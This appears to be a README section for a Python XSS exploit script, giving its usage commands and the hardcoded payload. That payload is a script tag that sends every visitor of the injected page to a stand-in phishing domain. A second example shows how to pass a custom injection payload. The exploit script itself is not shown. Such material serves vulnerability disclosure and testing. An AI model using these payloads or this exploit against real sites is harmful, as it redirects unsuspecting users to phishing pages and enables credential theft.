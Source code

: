 # **Exploitation Steps**
Python script requires **python 3** and **requests** library installed


The python exploit can be launched either with one or zero parameter, the latter if specified will define a payload for the XSS Injection.

Usage:

- **Default Payload**
~~~
python3 exploit.py
~~~

</br>

This Javascript payload hardcoded in the exploit:
~~~
"><script>window.top.location.replace('https://malicious-phishing-page.evil');</script>
~~~

redirects every user that renders the page to another URL: **www.malicious-phishing-page.evil** in this case.

</br>


- **Custom Payload** (must be inserted between single quotes)
~~~
python3 exploit.py '"><script>alert(\"This is a custom payload\")</script>'
~~~

</br>